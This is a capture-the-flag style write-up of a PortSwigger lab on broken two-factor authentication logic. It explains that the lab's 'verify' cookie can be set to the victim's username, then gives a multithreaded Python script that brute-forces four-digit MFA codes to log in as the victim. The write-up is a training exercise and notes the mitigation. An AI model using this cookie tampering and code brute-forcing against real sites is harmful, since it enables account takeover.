


# 2FA broken logic

**Category:** Web Exploitation — Authentication
**Difficulty:** Practioner
**Progress:** Solved

---

## Description

**Lab URL:** `https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic`

This lab's two-factor authentication can be bypassed. You have already obtained a valid username and password, but do not have access to the user's 2FA verification code. To solve the lab, access Carlos's account page.

This lab's two-factor authentication is vulnerable due to its flawed logic. To solve the lab, access Carlos's account page.

- Your credentials: wiener:peter
- Victim's username: carlos

You also have access to the email server to receive your 2FA verification code. 
Hint:
Carlos will not attempt to log in to the website himself. 


---

## Reconnaissance

- What does the application do? 
    - The website is a blog about several, seemingly to tech related topics. Users can read and leave comments under blog articles.
- Where is user input accepted? (forms, URL parameters, headers, cookies)
    - There is an account page with a login, the comments below articles can be consideres input too.
- What happens with normal input?
    - Correct user logins log the user in normally after using the email client to retrieve the MFA code

---

## Analysis


#### Vulnerability

- What exactly is vulnerable and why?
    
The 2FA implementation is vulnerable due to letting the client set the 'verify'-cookie themselves.

---

## Solution 

### Step 1 - Recon / Looking at responses

When logging in with our given account we can see there is a parameter `verify` used to tell the server which client is logging in. 

After fully logging in (using the 2FA code in our emails) there is still the same verify parameter


---

### Step 2 - Enumeration / Step 3 - Exploit

Pretty simple idea now. Using the login we have we can get a successfull log in. Now changing the verify paramter to any account we want to hack (in this case carlos) basically skips the password-login step. Using Burp intruder (or python...) iterating these MFA-Codes is easy.
```python
import requests
from threading import Thread

url = """https://0a9000510374308b80f585c10047009d.web-security-academy.net/login2"""
cookie = {"session":"foxmIdSw6UZP9M0eUrKtY2Hb0OlZVluK", "verify":"carlos"}
results = []
def try_number(number):
    body = { "mfa-code":f"{number}".zfill(4)}
    r = requests.post(url, cookies=cookie, data=body)
    if r.history:
            mfa_number = body.get("mfa-code")
            results.append(mfa_number)
    

threads = []
max_threads = 30
for i in range(10000):
    t = Thread(target=try_number, args=(i,))
    threads.append(t)
    t.start()
    print(i)

    if results:
         print(results[0])
         break
    if len(threads) >= max_threads:
        for t in threads:
            t.join()
        threads = []

for t in threads:
    t.join()
```
Just sending the right code fully logs us in and completes the lab

---
## Real World Impact

Similiar to last lab this implementation of 2FA is basically none-existant. The way to stop this hack, is to not trusting cookies with critical information.

---
## Learnings

- sending too many requests at once (like 150 with threads) creates problems like refused connections - don't be greedy here.
- testing if just changing parameters works should be one of the first checks when hacking